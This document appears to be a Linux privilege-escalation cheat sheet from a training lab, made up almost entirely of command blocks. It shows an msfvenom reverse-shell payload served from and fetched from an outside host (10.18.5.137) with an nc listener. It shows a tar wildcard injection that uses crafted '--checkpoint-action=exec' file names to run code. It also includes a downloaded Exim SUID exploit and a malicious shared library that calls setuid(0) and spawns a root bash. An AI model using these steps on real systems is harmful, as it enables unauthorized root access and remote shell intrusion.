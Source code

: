 ```
```

## CATEGORY "CRON JOBS" - WILD CARDS
```
cat /etc/crontab
cat /usr/local/bin/compress.sh

cd /home/user
tar czf /tmp/backup.tar.gz *
```
```
cd /var/www/html/priv_esc
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.5.137 LPORT=4444 -f elf -o shell.elf
python3 -m http.server
```
```
wget http://10.18.5.137:8000/shell.elf
chmod +x /home/user/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=shell.elf
nc -nvlp 4444
```

## CATEGORY "SUID / SGID EXECUTEABLES" - SHELL ESCAPE BINARIES

## CATEGORY "SUID / SGID EXECUTEABLES" - KNOWN EXPLOITS
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
cd /var/www/html/priv_esc
sudo wget https://www.exploit-db.com/download/39535
wget http://10.18.5.137:8000/39535 
sed -i -e 's/\r$//' 39535.sh
/home/user/tools/suid/exim/cve-2016-1531.sh
```

## CATEGORY "SUID / SGID EXECUTEABLES" - SHARED OBJECT INJECTION
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
/usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
/home/user/.config/libcalc.so
mkdir /home/user/.config
user@debian:~$ cat /home/user/tools/suid/libcalc.c
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
        setuid(0);
        system("/bin/bash -p");
}
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```
